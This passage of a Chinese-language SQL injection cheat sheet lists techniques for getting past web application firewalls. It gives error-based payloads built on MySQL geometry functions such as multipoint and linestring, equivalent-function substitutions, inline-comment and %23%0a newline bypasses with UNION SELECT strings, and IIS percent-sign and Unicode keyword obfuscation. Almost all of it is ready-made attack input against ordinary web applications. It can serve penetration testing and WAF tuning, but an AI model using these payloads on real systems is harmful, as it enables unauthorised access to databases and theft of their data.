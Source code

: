 ```
id = 1 AND multipoint((select * from(select * from(select user())a)b))
```
(4)	multilinestring()
```
id = 1 AND multilinestring((select * from(select * from(select user())a)b))
```
(5)	linestring()
```
id = 1 AND LINESTRING((select * from(select * from(select user())a)b))
```
(6)	multipolygon()
```
id =1 AND multipolygon((select * from(select * from(select user())a)b))
```

# 6.	其他等价函数绕过
>hex()、bin() ==> ascii()	
>sleep() ==>benchmark()	
>concat_ws()==>group_concat()	
>mid()、substr() ==> substring()	
>@@user ==> user()	
>@@database ==> database()	

# 7.	内联注释配合注释绕过
```
Id=1/**//*! order*/+/*!by*/+1
```
# 8.	%0a换行跳出单行注释绕过
原理：数据库中对于#和--(空格)后面的东西都进行注释忽略处理
我们通过waf一般不会处理注释内的东西这一特性进行绕过，在%23（url解码为#）后面放%0a换行再放入执行语句，中间可以多次经过%23%0a进行绕过。ps:在%23和%0a中间可以随意加入字符，放置注释掉了。
Payload：
```
id=2%20+%231q%0AOrDeR%20%23adsf%0A%23%0ABy%201
id=-2%20+%231q%0AuNiOn%20all%23adsf%0A%23%0AsEleCt%201,2,3
```
# 9.	利用一些中间件的缺陷
1)	IIS+ASP
通过在关键词之间加%绕过。
```
id=1 and uni%on se%le%ct 1,2,3 from ad%min
```
2)	IIS的Unicode编码
IIS支持Unicode编码，可以通过编码关键词进行绕过：
http://tool.chinaz.com/tools/unicode.aspx
![upload successful](/images/pasted-68.png)

